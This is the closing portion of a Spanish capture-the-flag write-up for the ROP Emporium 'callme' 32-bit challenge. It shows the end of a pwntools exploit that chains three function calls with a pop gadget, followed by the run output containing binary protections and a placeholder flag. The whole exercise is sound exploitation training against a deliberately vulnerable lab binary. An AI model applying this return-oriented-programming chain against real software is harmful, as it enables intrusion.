 ```py
payload += callme_one
payload += popall
payload += params

payload += callme_two
payload += popall
payload += params

payload += callme_three
payload += popall
payload += params

p.sendline(payload)

print(p.recvall())
```

### Ejecución
```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
[+] Starting local process './callme32': pid 72748
[*] '/home/h3rshel/Desktop/reversing/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[...]
  p.recvuntil(">")
[+] Receiving all data: Done (105B)
[*] Process './callme32' stopped with exit code 0 (pid 72748)
b' Thank you!\ncallme_one() called correctly\ncallme_two() called correctly\nROPE{a_placeholder_32byte_flag!}\n'
```

Y con esto termina mi solución. :)

